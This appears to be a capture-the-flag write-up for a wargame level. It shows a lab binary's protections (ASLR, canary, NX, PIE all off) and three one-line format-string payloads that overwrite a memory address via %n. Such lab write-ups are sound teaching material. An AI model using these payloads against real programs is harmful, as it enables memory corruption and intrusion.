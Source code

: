# level4

## Header

```bash
ssh level4@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

<hr>

## Solution

The same as level3

echo -n $'\x10\x98\x04\x08%16930112c%12$n' | ./level4

printf '\x10\x98\x04\x08%%16930112c%%12$n' | ./level4

python -c 'print "\x10\x98\x04\x08%16930112c%12$n"' | ./level4

## References
https://owasp.org/www-community/attacks/Format_string_attack